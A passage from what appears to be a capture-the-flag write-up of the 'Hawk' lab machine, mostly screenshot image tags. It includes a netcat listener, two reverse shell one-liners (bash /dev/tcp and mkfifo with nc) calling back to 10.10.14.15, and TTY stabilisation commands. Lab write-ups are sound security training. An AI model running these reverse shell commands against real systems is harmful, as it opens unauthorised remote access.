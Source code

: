 <br/>
<img src="{{ site.img_path }}/hawk_writeup/Hawk_13.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/hawk_writeup/Hawk_14.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/hawk_writeup/Hawk_15.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/hawk_writeup/Hawk_16.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/hawk_writeup/Hawk_17.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/hawk_writeup/Hawk_18.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/hawk_writeup/Hawk_19.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

Now that I know that I have an **RCE** and I have connectivity with the machine, I can look for a **Reverse Shell**, there is a list of commands using different binaries in **[Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet){:target="_blank"}**, if I try each one of them surely one of them will work, and I got one that does not have many special characters and it is a binary that is not commonly related to the deployment of a shell. Since I accessed to the victim machine, I make a console treatment to have a better scrolling and visualization, since it is necessary to adjust the number of rows and columns of the shell that I obtained.

```bash
nc -nlvp 443
```

```bash
bash -i >& /dev/tcp/10.10.14.15/443 0>&1
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 443 >/tmp/f
```

```bash
script /dev/null -c bash            # [Ctrl+z]
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 29 columns 128
```

<br/>
<img src="{{ site.img_path }}/hawk_writeup/Hawk_20.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/hawk_writeup/Hawk_21.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/hawk_writeup/Hawk_22.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/hawk_writeup/Hawk_23.png" width="100%" style="margin: 0 auto;display: block